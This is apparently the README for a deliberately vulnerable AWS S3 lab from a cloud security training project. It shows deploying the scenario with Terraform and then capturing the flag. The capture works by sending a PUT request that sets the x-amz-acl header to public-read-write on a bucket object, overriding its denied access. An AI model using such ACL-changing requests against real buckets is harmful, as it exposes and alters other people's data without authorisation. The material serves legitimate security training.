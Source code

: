 # Description

English | [中文](./README_CN.md)

This is a script that can help you quickly build a bucket object ACL reading and writing scenarios

Although you may not encounter it in a real environment, have fun playing

## Deployment Environment

```bash
cd /TerraformGoat/aws/object_storage_service/object_acl_writable/
```

![image-20220426152245856](../../../images/image-20220426152245856.png)

```bash
terraform init
```

![image-20220426152354009](../../../images/image-20220426152354009.png)

```bash
terraform apply
```

![image-20220426152417710](../../../images/image-20220426152417710.png)

![image-20220426152428214](../../../images/image-20220426152428214.png)

After typing yes, the scene will be built automatically and quickly

## Get Flag

![image-20220426152550418](../../../images/image-20220426152550418.png)

We see the list of files that try to access index.html

![image-20220426152651701](../../../images/image-20220426152651701.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Access Denied</Message></Error>
```

Access is forbidden, but we can modify whether the object can be read or written by adding `public-read-write` to `x-amz-acl` in the request header via the PUT method

![image-20220426152744234](../../../images/image-20220426152744234.png)

![image-20220426172410852](../../../images/image-20220426172410852.png)

```http
PUT /index.html?acl HTTP/1.1
Host: hxseclabteztq.s3.eu-west-1.amazonaws.com
x-amz-acl: public-read-write
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Then we get the ACL of this object and we see that all users can now read and write to it

![image-20220426172506589](../../../images/image-20220426172506589.png)

Afterwards, when you visit index.html, you successfully get the flags

![image-20220426172534934](../../../images/image-20220426172534934.png)

## Destruction Challenge

```bash
terraform destroy
```

![image-20220426173539820](../../../images/image-20220426173539820.png)

enter yes

![image-20220426173554665](../../../images/image-20220426173554665.png)
